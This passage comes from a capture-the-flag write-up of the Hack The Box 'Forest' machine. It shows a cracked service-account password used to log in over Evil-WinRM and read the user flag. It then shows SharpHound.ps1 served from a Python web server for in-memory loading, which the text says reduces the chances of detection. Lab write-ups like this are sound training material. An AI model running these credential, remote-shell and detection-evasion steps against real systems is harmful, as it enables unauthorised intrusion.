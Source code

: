 The password <mark>s3rvice</mark> has been cracked. Recalling the password policy, we expected it to be an easy task. 

### WinRM

Recall that port 5985 is open, which we can utilize to gain a foothold. Not every user can connect via WinRM but <mark>svc-alfresco</mark> is a member of the <mark>Remote Management Users</mark> group. I will use <mark>Evil-WinRM</mark> to log in remotely.

{% highlight shell %}
┌──(iwo㉿kali)-[~/Desktop/Boxes/Forest]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type ..\Desktop\user.txt
c7d950**************************
{% endhighlight %}

We are in and we retrieve the user flag.



## Privilege escalation
---

### Enumeration

We will use <mark>BloodHound</mark> to visualize the domain and its privilege escalation paths. I will not be using <mark>BloodHound.py</mark> because, at the time of writing this post, it has certain limitations, such as the lack of support for collecting the GPO local groups.

#### SharpHound
<mark>SharpHound</mark> will extract the necessary data for <mark>BloodHound</mark> into a zip file. Let's use a PowerShell script instead of an executable. We can inject it directly into memory, which reduces the chances of detection.

Hosting <mark>SharpHound.ps1</mark> using a Python web server.

Alternatively, a simpler choice would be to use <mark>Evil-WinRM</mark>'s built-in upload and download commands. This method doesn't require setting up a web server or SMB share.

{% highlight shell %}
┌──(iwo㉿kali)-[~/…/BloodHound-win32-x64/resources/app/Collectors]
└─$ python -m http.server      
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.161 - - [22/Oct/2024 16:20:38] "GET /SharpHound.ps1 HTTP/1.1" 200 -
{% endhighlight %}
